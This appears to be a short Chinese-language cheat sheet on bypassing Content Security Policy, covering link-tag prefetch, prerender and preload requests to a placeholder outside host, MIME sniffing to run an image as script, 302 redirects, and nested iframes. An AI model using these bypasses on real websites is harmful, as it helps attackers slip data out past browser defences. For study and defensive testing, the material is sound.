 

## Bypass

### 预加载

浏览器为了增强用户体验，让浏览器更有效率，就有一个预加载的功能，大体是利用浏览器空闲时间去加载指定的内容，然后缓存起来。这个技术又细分为DNS-prefetch、subresource、prefetch、preconnect、prerender。

HTML5页面预加载是用link标签的rel属性来指定的。如果csp头有unsafe-inline，则用预加载的方式可以向外界发出请求，例如

```
<!-- 预加载某个页面 -->
<link rel='prefetch' href='http://xxxx'><!-- firefox -->
<link rel='prerender' href='http://xxxx'><!-- chrome -->
<!-- 预加载某个图片 -->
<link rel='prefetch' href='http://xxxx/x.jpg'>
<!-- DNS 预解析 -->
<link rel="dns-prefetch" href="http://xxxx">
<!-- 特定文件类型预加载 -->
<link rel='preload' href='//xxxxx/xx.js'><!-- chrome -->
```

另外，不是所有的页面都能够被预加载，当资源类型如下时，将阻止预加载操作：

- URL中包含下载资源
- 页面中包含音频、视频
- POST、PUT和DELET操作的ajax请求
- HTTP认证
- HTTPS页面
- 含恶意软件的页面
- 弹窗页面
- 占用资源很多的页面
- 打开了chrome developer tools开发工具



### MIME sniff

举例来说，csp禁止跨站读取脚本，但是可以跨站读img，那么传一个含有脚本的img，再``<script href='http://xxx.com/xx.jpg'>``，这里csp认为是一个img，绕过了检查，如果网站没有回正确的mime type，浏览器会进行猜测，就可能加载该img作为脚本



### 302跳转

对于302跳转绕过CSP而言，实际上有以下几点限制：

- 跳板必须在允许的域内。
- 要加载的文件的host部分必须跟允许的域的host部分一致



### iframe

当可以执行代码时，可以创建一个源为 `css` `js` 等静态文件的frame，在配置不当时，该frame并不存在csp，则在该frame下再次创建frame，达到bypass的目的。同理，使用 `../../../` `/%2e%2e%2f` 等可能触发服务器报错的链接也可以到达相应的目的。
